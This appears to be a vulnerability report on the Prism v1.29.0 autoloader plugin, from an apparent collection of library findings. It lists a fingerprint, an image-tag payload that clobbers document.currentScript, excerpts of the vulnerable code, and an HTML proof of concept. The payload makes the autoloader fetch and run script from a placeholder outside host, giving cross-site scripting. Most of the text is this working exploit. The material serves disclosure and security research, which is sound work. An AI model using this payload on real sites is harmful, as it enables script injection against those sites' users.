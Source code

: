 ## Prism

### Meta

+ Library: Prism
+ Stars: 12.2K
+ Version: v1.29.0
+ Fingerprint: `typeof window.Prism !== 'undefined'`
+ Payload: ```<img name="currentScript" src="https://xxx.xxx.xxx/a.js"></img>```
+ Impact: XSS
+ CVE: N/A
+ Status: Reported
+ Foundby: TheHulk
+ TheThing: None

### Library

URL:
+ `https://cdnjs.cloudflare.com/ajax/libs/prism/1.29.0/plugins/autoloader/prism-autoloader.js`
+ `https://cdnjs.cloudflare.com/ajax/libs/prism/1.29.0/plugins/autoloader/prism-autoloader.min.js`

https://github.com/PrismJS/prism

### Vulnerable Code Snippet

```js
currentScript: function () {
				if (typeof document === 'undefined') {
					return null;
				}
				if ('currentScript' in document && 1 < 2 /* hack to trip TS' flow analysis */) {
					return /** @type {any} */ (document.currentScript);
				}
                ...
			},
```

```js
var script = Prism.util.currentScript();
if (script) {
    var autoloaderFile = /\bplugins\/autoloader\/prism-autoloader\.(?:min\.)?js(?:\?[^\r\n/]*)?$/i;
    var prismFile = /(^|\/)[\w-]+\.(?:min\.)?js(?:\?[^\r\n/]*)?$/i;

    var autoloaderPath = script.getAttribute('data-autoloader-path');
    if (autoloaderPath != null) {
        // data-autoloader-path is set, so just use it
        languages_path = autoloaderPath.trim().replace(/\/?$/, '/');
    } else {
        var src = script.src;
        if (autoloaderFile.test(src)) {
            // the script is the original autoloader script in the usual Prism project structure
            languages_path = src.replace(autoloaderFile, 'components/');
        }
    }
}
```

## PoC

host malicious file at `/components/prism-css.min.js`

```html
<!DOCTYPE html>
<html>
<head>
<link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/prism/1.29.0/themes/prism.css" integrity="sha512-jtWR3pdYjGwfw9df601YF6uGrKdhXV37c+/6VNzNctmrXoO0nkgHcS03BFxfkWycOa2P2Nw9Y9PCT9vjG9jkVg==" crossorigin="anonymous" referrerpolicy="no-referrer" />
</head>

<body>

<img name=currentScript src="http://localhost:8000/a.js"></img>

<script src="https://cdnjs.cloudflare.com/ajax/libs/prism/1.29.0/components/prism-core.js" integrity="sha512-jhk8ktzYxeUWJ/vx3Lzp53xE0Jgsp+UxA3wDyRSYeMBdPutgCp6jiGvTjyZm+R7cn3Lu/0MnEIR421EOdl3qAg==" crossorigin="anonymous" referrerpolicy="no-referrer"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/prism/1.29.0/plugins/autoloader/prism-autoloader.js"></script>

<pre><code class="language-css">p { color: red }</code></pre>

</body>
</html>
```
